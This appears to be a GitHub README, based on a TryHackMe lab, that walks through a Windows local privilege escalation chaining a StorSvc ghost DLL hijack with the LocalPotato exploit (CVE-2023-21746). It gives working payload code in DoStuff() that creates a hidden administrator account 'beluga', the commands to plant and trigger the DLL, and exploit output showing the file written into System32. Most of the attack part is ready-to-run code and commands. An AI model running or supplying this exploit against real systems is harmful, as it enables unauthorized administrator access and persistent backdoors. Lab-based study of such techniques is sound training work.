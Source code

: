 # Ghost dll & LocalPotato
All the information to compile and execute these binaries comes from the [TryHackMe room for LocalPotato](https://tryhackme.com/room/localpotato)

## Compiling the Exploit

Make your changes, github will compile it for you 

- **SprintCSP.dll**: This is the missing DLL we are going to hijack.
- **RpcClient.exe**: This program will trigger the RPC call to `SvcRebootToFlashingMode`. Depending on the Windows version you are targeting, you may need to edit the exploit's code a bit, as different Windows versions use different interface identifiers to expose `SvcRebootToFlashingMode`.

Let's start by dealing with RpcClient.exe. As previously mentioned, we will need to change the exploit depending on the Windows version of the target machine. To do this, we will need to change the first lines of `RpcClient\RpcClient\storsvc_c.c` so that the correct operating system is chosen.

If the target machine is running Windows Server 2019, we will edit the file accordingly:

    #if defined(_M_AMD64)

    //#define WIN10
    //#define WIN11
    #define WIN2019
    //#define WIN2022

    ...

Now to compile SprintCSP.dll, we only need to modify the `DoStuff()` function on `SprintCSP\SprintCSP\main.c` so that it executes a command that grants us privileged access to the machine.  We will make the DLL add a new administrator user: beluga / Password.123

Here's the code with our replaced command:

    void DoStuff() {

      // Replace all this code by your payload
      STARTUPINFO si = { sizeof(STARTUPINFO) };
      PROCESS_INFORMATION pi;
      CreateProcess(L"c:\\windows\\system32\\cmd.exe",L" /C net user beluga Password.123 /add && net localgroup administrators beluga /add",
          NULL, NULL, FALSE, NORMAL_PRIORITY_CLASS, NULL, L"C:\\Windows", &si, &pi);

      CloseHandle(pi.hProcess);
      CloseHandle(pi.hThread);

      return;
    }
    
    
## Ghost dll attack
To successfully exploit StorSvc, we need to copy SprintCSP.dll to any directory in the current PATH. We can verify the PATH by running the following command:

        C:\> reg query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" -v Path
            Path    REG_EXPAND_SZ    %SystemRoot%\system32;%SystemRoot%;%SystemRoot%\System32\Wbem;
                                     %SYSTEMROOT%\System32\WindowsPowerShell\v1.0\;%SYSTEMROOT%\System32\OpenSSH\;
                                     C:\Program Files\Amazon\cfn-bootstrap\

With our DLL in place, we can now run RpcClient.exe to trigger the call to SvcRebootToFlashingMode, effectively executing the payload in our DLL:

        C:\Users\user\Desktop> RpcClient.exe
        [+] Dll hijack triggered!

Note:
If it errorrs out eg. like this:
        Exception: 1753 - 0x000006d9

You need to adjust properly the Windows version for the RpcClient.exe and recompile.
        
If the exploitation was successful beluga will be in the Administrators group:

        C:\Users\user\Desktop> net user beluga
        
## Localpotato
By using Localpotato exploit we can access C:\windows\system32 even if we are using an unprivileged user:

        C:\Users\user\Desktop> LocalPotato.exe -i SprintCSP.dll -o \Windows\System32\SprintCSP.dll
 
         LocalPotato (aka CVE-2023-21746)
         by splinter_code & decoder_it
 
        [*] Objref Moniker Display Name = objref:TUVPVwEAAAAAAAAAAAAAAMAAAAAAAABGAQAAAAAAAABTIvXDdMIUbap+AepkeJ/yAcgAAMwIwArWEKZ3vRDmhjkAIwAHAEMASABBAE4ARwBFAC0ATQBZAC0ASABPAFMAVABOAEEATQBFAAAABwAxADAALgAxADAALgA0ADAALgAyADMAMQAAAAAACQD//wAAHgD//wAAEAD//wAACgD//wAAFgD//wAAHwD//wAADgD//wAAAAA=:
        [*] Calling CoGetInstanceFromIStorage with CLSID:{854A20FB-2D44-457D-992F-EF13785D2B51}
        [*] Marshalling the IStorage object... IStorageTrigger written: 100 bytes
        [*] Received DCOM NTLM type 1 authentication from the privileged client
        [*] Connected to the SMB server with ip 127.0.0.1 and port 445
        [+] SMB Client Auth Context swapped with SYSTEM
        [+] RPC Server Auth Context swapped with the Current User
        [*] Received DCOM NTLM type 3 authentication from the privileged client
        [+] SMB reflected DCOM authentication succeeded!
        [+] SMB Connect Tree: \\127.0.0.1\c$  success
        [+] SMB Create Request File: Windows\System32\SprintCSP.dll success
        [+] SMB Write Request file: Windows\System32\SprintCSP.dll success
        [+] SMB Close File success
        [+] SMB Tree Disconnect success

Once our dll is in place, we can trigger it on the previous way.
